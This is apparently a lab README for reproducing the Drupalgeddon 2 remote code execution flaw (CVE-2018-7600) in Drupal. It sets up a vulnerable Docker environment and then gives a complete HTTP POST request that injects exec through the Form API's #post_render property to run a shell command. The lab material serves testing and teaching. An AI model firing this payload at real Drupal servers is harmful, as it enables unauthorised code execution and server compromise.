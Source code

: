 # Drupal Drupalgeddon 2 Remote Code Execution Vulnerability (CVE-2018-7600)

[中文版本(Chinese version)](README.zh-cn.md)


Drupal before 7.58, 8.x before 8.3.9, 8.4.x before 8.4.6, and 8.5.x before 8.5.1 allows remote attackers to execute arbitrary code because of an issue affecting multiple subsystems with default or common module configurations including the Form API.

# References:

- https://research.checkpoint.com/uncovering-drupalgeddon-2/


## Vulnerable environment

Run the following command to start a vulnerable Drupal 8.5.0 environment:

```
docker-compose up -d
```

After the environment is started, visit `http://your-ip:8080/` and you will see the drupal installation page. Complete the drupal installation using the "standard" profile. Because there is no mysql environment, you should select sqlite database when installing. Once the installation is complete you are ready to start exploiting it.

## Exploit

Referring to [a2u/CVE-2018-7600](https://github.com/a2u/CVE-2018-7600/blob/master/exploit.py), we can send the following request to drupal:

```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```

Upon successful execution of the code, the id command is executed:

![](1.png)
